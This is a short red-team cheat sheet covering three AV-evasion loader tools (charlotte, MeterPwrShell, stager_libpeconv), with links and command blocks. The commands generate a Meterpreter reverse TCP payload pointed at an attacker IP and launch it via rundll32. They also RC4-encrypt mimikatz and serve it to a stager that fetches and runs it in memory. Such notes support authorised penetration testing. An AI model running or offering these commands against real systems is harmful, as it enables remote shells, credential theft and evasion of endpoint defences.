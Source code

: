 

### charlotte

* [https://github.com/9emin1/charlotte](https://github.com/9emin1/charlotte)
* [https://github.com/cepxeo/dll4shell](https://github.com/cepxeo/dll4shell)

```
$ sudo apt install 'mingw-w64*' -y
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f raw > beacon.bin
$ python charlotte.py
Cmd > rundll32.exe charlotte.dll, <XOR_KEY>
```



### MeterPwrShell

* [https://github.com/GetRektBoy724/MeterPwrShell/releases](https://github.com/GetRektBoy724/MeterPwrShell/releases)
* [https://raikia.com/tool-powershell-encoder/](https://raikia.com/tool-powershell-encoder/)

```
$ sudo ./MeterPwrShell2Kalix64 -c noaptupdate
```



### stager_libpeconv

- [https://github.com/tothi/stager_libpeconv](https://github.com/tothi/stager_libpeconv)
- [https://github.com/hasherezade/libpeconv](https://github.com/hasherezade/libpeconv)

```
$ git clone --recurse-submodules https://github.com/tothi/stager_libpeconv && cd stager_libpeconv
$ openssl enc -rc4 -in mimikatz.exe -K `echo -n '1234567890123456' | xxd -p` -nosalt -out mimikatz.rc4
$ make stager IMPLANT_IP=10.10.13.37 IMPLANT_PORT=1337 RC4_KEY=1234567890123456
$ ./socket_binary_server.py mimikatz.rc4 10.10.13.37 1337
Cmd > dist\stager.exe
```
